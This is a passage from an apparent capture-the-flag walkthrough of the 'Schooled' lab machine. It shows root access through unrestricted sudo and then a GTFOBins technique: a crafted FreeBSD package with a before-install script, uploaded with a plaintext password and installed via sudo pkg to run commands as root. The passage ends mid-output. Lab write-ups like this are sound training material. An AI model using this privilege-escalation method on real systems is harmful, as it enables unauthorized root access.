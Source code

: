     jamie@Schooled:/var/tmp/.0xdf $ sudo -l
    User jamie may run the following commands on Schooled:
        (ALL) NOPASSWD: /usr/sbin/pkg update
        (ALL) NOPASSWD: /usr/sbin/pkg install *
        (ALL) NOPASSWD: ALL
    

`sudo su` will provide a root shell:

    
    
    jamie@Schooled:~ $ sudo su
    root@Schooled:/usr/home/jamie #
    

And `root.txt`:

    
    
    root@Schooled:~ # cat root.txt
    e65bc368************************
    

### Alternative GTFOBins

When Schooled released, I don’t believe `pkg` was on GTFOBins, but it is
[now](https://gtfobins.github.io/gtfobins/pkg/). It uses `fpm` to generate a
dummy package. [fpm](https://github.com/jordansissel/fpm) is a tool for
building packages for various OSes. That binary isn’t on Schooled:

    
    
    jamie@Schooled:/tmp $ which fpm
    jamie@Schooled:/tmp $ find / -name fpm -type f 2>/dev/null
    

I’ll install it on my VM with `sudo gem i fpm -f`, and build that package
there with the commands from GTFOBins, which results in a `txz` file in the
current directory:

    
    
    oxdf@parrot$ TF=$(mktemp -d)
    oxdf@parrot$ echo 'id' > $TF/x.sh
    oxdf@parrot$ fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
    Created package {:path=>"x-1.0.txz"}
    oxdf@parrot$ file x-1.0.txz
    x-1.0.txz: XZ compressed data
    

I’ll use `scp` to upload that to Schooled:

    
    
    oxdf@parrot$ sshpass -p '!QAZ2wsx' scp x-1.0.txz jamie@10.10.10.234:/tmp/
    

And from Schooled run the command given:

    
    
    jamie@Schooled:/tmp $ sudo pkg install -y --no-repo-update ./x-1.0.txz 
    pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
    pkg: Repository FreeBSD cannot be opened. 'pkg update' required
    Checking integrity... done (0 conflicting)
    The following 1 package(s) will be affected (of 0 checked):
    